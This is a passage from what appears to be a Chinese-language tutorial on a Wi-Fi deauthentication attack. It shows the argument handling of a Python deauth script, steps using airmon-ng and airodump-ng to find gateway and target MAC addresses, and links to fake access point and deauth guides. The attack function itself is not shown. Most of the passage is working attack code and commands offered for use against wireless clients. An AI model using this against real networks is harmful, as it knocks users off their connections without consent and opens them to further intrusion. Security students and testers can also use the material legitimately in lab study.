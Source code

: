 ```python
    parser.add_argument("--interval", help="The sending frequency between two frames sent, default is 100ms", default=0.1)
    parser.add_argument("-i", dest="iface", help="Interface to use, must be in monitor mode, default is 'wlan0mon'", default="wlan0mon")
    parser.add_argument("-v", "--verbose", help="wether to print messages", action="store_true")

    args = parser.parse_args()
    target = args.target
    gateway = args.gateway
    count = int(args.count)
    interval = float(args.interval)
    iface = args.iface
    verbose = args.verbose
    if count == 0:
        # if count is 0, it means we loop forever (until interrupt)
        loop = 1
        count = None
    else:
        loop = 0
    # printing some info messages"
    if verbose:
        if count:
            print(f"[+] Sending {count} frames every {interval}s...")
        else:
            print(f"[+] Sending frames every {interval}s for ever...")

    deauth(target, gateway, interval, count, loop, iface, verbose)
```



### 攻击

1. 开启监视模式

```
sudo airmon-ng start wlan0
```

 我的网络接口称为wlan0，但是您应该使用正确的网络接口名称。 

2.  获得网关和目标MAC地址 

```
airodump-ng wlan0mon
```

 wlan0mon是我在监视方式下的网络接口名称

 此命令将继续监听802.11信标帧，并为您以及附近的连接设备安排Wi-Fi网络。 

3. 执行代码



## 网址集合

1. fake ap: https://www.thepythoncode.com/article/create-fake-access-points-scapy 

2. deauth attack: https://www.thepythoncode.com/article/force-a-device-to-disconnect-scapy 